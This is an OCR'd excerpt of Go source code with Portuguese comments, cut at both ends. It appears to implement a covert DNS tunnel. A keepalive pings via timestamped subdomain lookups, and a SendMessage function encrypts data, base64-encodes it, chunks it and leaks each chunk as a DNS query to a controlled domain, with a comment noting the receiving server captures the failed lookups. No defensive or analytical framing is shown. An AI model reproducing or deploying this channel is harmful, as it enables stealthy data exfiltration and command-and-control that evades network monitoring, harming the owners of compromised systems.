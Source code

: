     // Iniciar rotina de keepalive
    go dt.keepAliveRoutine()
    
    return nil
}

func (dt *DNSTunnelComm) keepAliveRoutine() {
    ticker := time.NewTicker(30 * time.Second)
    defer ticker.Stop()
    
    for dt.connectionAlive {
        <-ticker.C
        dt.ping()
    }
}

func (dt *DNSTunnelComm) ping() error {
    // Enviar ping pelo túnel
    pingSubdomain := fmt.Sprintf("ping-%d.%s", time.Now().Unix(), dt.domain)
    _, _ = net.LookupIP(pingSubdomain)
    dt.lastPing = time.Now()
    return nil
}

// SendMessage envia uma mensagem pelo túnel DNS
func (dt *DNSTunnelComm) SendMessage(message string) error {
    if !dt.connectionAlive {
        return fmt.Errorf("túnel não está ativo")
    }
    
    // Criptografar a mensagem com a chave de sessão
    encryptedMsg, err := dt.encryptWithSessionKey(message)
    if err != nil {
        return fmt.Errorf("falha ao criptografar mensagem: %v", err)
    }
    
    // Codificar para transmissão DNS
    encodedMsg := base64.StdEncoding.EncodeToString(encryptedMsg)
    
    // Dividir em chunks para consultas DNS
    chunks := splitIntoChunks(encodedMsg, 40)
    
    // Enviar mensagem via consultas DNS
    for i, chunk := range chunks {
        subdomain := fmt.Sprintf("msg-%d-%s.%s", i, chunk, dt.domain)
        
        // Simular consulta DNS
        _, err := net.LookupIP(subdomain)
        if err != nil {
            // Ignorar erros - esperamos que falhe, mas o servidor capturará
            continue
        }
    }
    
    // Enviar marca de fim
    endSubdomain := fmt.Sprintf("msg-end.%s", dt.domain)
    _, _ = net.LookupIP(endSubdomain)
    